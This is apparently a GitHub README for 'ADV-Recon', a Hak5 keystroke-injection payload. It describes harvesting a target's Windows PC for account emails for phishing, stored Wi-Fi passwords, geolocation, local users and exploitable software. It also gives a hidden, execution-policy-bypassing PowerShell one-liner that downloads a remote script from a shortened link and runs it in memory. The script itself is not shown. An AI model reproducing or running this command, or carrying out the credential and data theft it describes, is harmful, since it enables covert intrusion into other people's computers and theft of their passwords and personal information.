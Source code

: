 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# ADV-Recon

A script used to do an advanced level of Recon on the targets computer

## Description

This program enumerates a target PC to collect as much recon data as possible for future engagements This includes:

* Hosts Powershell Version (to know what commands can be run)
* Name Associated with their Microsoft Account (Or ENV UserName variable if one is not detected)
* Whether they are in the Admin group or not
* The email associated with their Microsoft Account (for phishing possibilities)
* Other User accounts on their system (for possible privledge escalation)
* Details on their login settings (Ex: Min/Max password age and length)
* How many days since they have changed their password (Max password age - Days since = Opportunity)
* Their GeoLocation (know their approximate where abouts)
* Nearby Wifi Networks (Possible lateral movement)
* Network Info (Local and Public IP Address; MAC Address; RDP Enabled?)
* WLAN Profiles (List of SSIDs and Passwords stored on their PC)
* Network Interfaces (What are they connecting in and out with)
* System Information (Manufacturer, Model, Serial Number, OS, CPU, RAM, Mainboard BIOS)
* Local Users (Accounts on system with Username, name associated with microsoft account and SID)
* Information on their HardDrives (Indicator of Recon Scope)
* COM and Serial Devices (Is there a device connected you can manipulate?)
* Active TCP Connections (Poor mans Port Scanning)
* Processes, Services, Software, and Drivers (What is running on the computer we can exploit?)
* Video Card info (how much vroom vroom?)
* Tree Command (Gain a more accurate assessment of what to exfil or use in Phishing attacks)

## Getting Started

### Dependencies

* DropBox or other file sharing service - Your Shared link for the intended file
* Windows 10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory
```
powershell -w h -NoP -NonI -Ep Bypass $db='';iwr rebrand.ly/9eegqdd | iex
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here

I am Jakoby

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://youtube.com/c/IamJakoby?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/I_Am_Jakoby">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/i_am_jakoby/">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/insta.png width="48" height="48" alt="Golang" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>Discord
    </td>
    <td align="center" width="96">
      <a href="https://www.tiktok.com/@i_am_jakoby?lang=en">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/raw/main/img/tiktok.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>TikTok
    </td>    
  </tr>
</table>
</div>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)

<p align="right">(<a href="#top">back to top</a>)</p>
